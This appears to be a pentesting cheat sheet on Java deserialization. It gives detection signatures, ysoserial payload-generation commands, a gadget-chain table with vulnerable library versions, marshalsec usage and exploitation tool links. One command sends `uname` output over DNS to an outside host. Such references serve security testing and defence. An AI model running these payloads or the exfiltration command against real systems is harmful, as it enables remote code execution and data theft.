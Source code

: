 # Java Deserialization

## Detection

- `"AC ED 00 05"` in Hex
  * `AC ED`: STREAM_MAGIC. Specifies that this is a serialization protocol.
  * `00 05`: STREAM_VERSION. The serialization version.
- `"rO0"` in Base64
- Content-type = "application/x-java-serialized-object"
- `"H4sIAAAAAAAAAJ"` in gzip(base64)

## Exploit

[ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial-master-v0.0.4-g35bce8f-67.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

payload | author | dependencies | impact (if not RCE)
------|--------|------ |------
BeanShell1          |@pwntester, @cschneider4711 |bsh:2.0b5
C3P0                |@mbechler                   |c3p0:0.9.5.2, mchange-commons-java:0.2.11
Clojure             |@JackOfMostTrades           |clojure:1.8.0
CommonsBeanutils1   |@frohoff                    |commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
CommonsCollections1 |@frohoff                    |commons-collections:3.1
CommonsCollections2 |@frohoff                    |commons-collections4:4.0
CommonsCollections3 |@frohoff                    |commons-collections:3.1
CommonsCollections4 |@frohoff                    |commons-collections4:4.0
CommonsCollections5 |@matthias_kaiser, @jasinner |commons-collections:3.1
CommonsCollections6 |@matthias_kaiser            |commons-collections:3.1
FileUpload1         |@mbechler                   |commons-fileupload:1.3.1, commons-io:2.4 | file uploading
Groovy1             |@frohoff                    |groovy:2.3.9
Hibernate1          |@mbechler|
Hibernate2          |@mbechler|
JBossInterceptors1  |@matthias_kaiser            |javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
JRMPClient          |@mbechler|
JRMPListener        |@mbechler|
JSON1               |@mbechler                   |json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
JavassistWeld1      |@matthias_kaiser            |javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
Jdk7u21             |@frohoff|
Jython1             |@pwntester, @cschneider4711 |jython-standalone:2.5.2
MozillaRhino1       |@matthias_kaiser            |js:1.7R2
Myfaces1            |@mbechler|
Myfaces2            |@mbechler|
ROME                |@mbechler                   |rome:1.0
Spring1             |@frohoff                    |spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
Spring2             |@mbechler                   |spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
URLDNS              |@gebl| | jre only vuln detect
Wicket1             |@jacob-baines               |wicket-util:6.23.0, slf4j-api:1.6.4

## Burp extensions using ysoserial

- [JavaSerialKiller](https://github.com/NetSPI/JavaSerialKiller)
- [Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)
- [Burp-ysoserial](https://github.com/summitt/burp-ysoserial)
- [SuperSerial](https://github.com/DirectDefense/SuperSerial)
- [SuperSerial-Active](https://github.com/DirectDefense/SuperSerial-Active)

## Other tools

- [JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget)
- [JexBoss](https://github.com/joaomatosf/jexboss) - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool
- [ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- [gadgetprobe](https://labs.bishopfox.com/gadgetprobe)
- [marshalsec](https://github.com/mbechler/marshalsec) - Turning your data into code execution

```java
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]

 where
  -a - generates/tests all payloads for that marshaller
  -t - runs in test mode, unmarshalling the generated payloads after generating them.
  -v - verbose mode, e.g. also shows the generated payload in test mode.
  gadget_type - Identifier of a specific gadget, if left out will display the available ones for that specific marshaller.
  arguments - Gadget specific arguments
```

Payload generators for the following marshallers are included:<br />

| Marshaller                      | Gadget Impact
| ------------------------------- | ----------------------------------------------
| BlazeDSAMF(0&#124;3&#124;X)     | JDK only escalation to Java serialization<br/>various third party libraries RCEs
| Hessian&#124;Burlap             | various third party RCEs
| Castor                          | dependency library RCE
| Jackson                         | **possible JDK only RCE**, various third party RCEs
| Java                            | yet another third party RCE
| JsonIO                          | **JDK only RCE**
| JYAML                           | **JDK only RCE**
| Kryo                            | third party RCEs
| KryoAltStrategy                 | **JDK only RCE**
| Red5AMF(0&#124;3)               | **JDK only RCE**
| SnakeYAML                       | **JDK only RCEs**
| XStream                         | **JDK only RCEs**
| YAMLBeans                       | third party RCE


## References

- [Github - ysoserial](https://github.com/frohoff/ysoserial)
- [Java-Deserialization-Cheat-Sheet - GrrrDog](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
- [Understanding & practicing java deserialization exploits](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)
- [How i found a 1500$ worth Deserialization vulnerability - @D0rkerDevil](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities - 14 Aug 2017, Peter Stöckli](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [Jackson CVE-2019-12384: anatomy of a vulnerability class](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [On Jackson CVEs: Don’t Panic — Here is what you need to know](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
- [Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464) - Michael Stepankin / @artsploit - 29 June 2021](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464)